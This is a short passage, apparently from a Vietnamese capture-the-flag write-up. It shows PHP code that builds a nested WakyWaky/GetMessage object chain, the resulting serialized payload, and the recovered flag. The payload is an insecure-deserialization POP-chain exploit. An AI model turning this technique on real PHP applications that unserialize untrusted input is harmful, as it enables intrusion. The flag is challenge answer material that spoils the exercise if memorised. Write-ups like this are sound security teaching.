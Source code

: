 ```php
$obj1 = new GetMessage('abcxyz');
$obj1->receive = "HelloBooooooy";

$obj2 = new WakyWaky();
$obj2->msg = $obj1;

$obj3 = new WakyWaky(); 
$obj3->msg = $obj2;

echo serialize($obj3);
//O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}

?>
```

Submit chuỗi serialize này và nhận được flag

![image](https://user-images.githubusercontent.com/80137840/225534354-a372a11f-98c0-4e33-89a2-43e94e2a988f.png)

Flag: `uns3r14liz3_p0p_ch41n_r0cks`

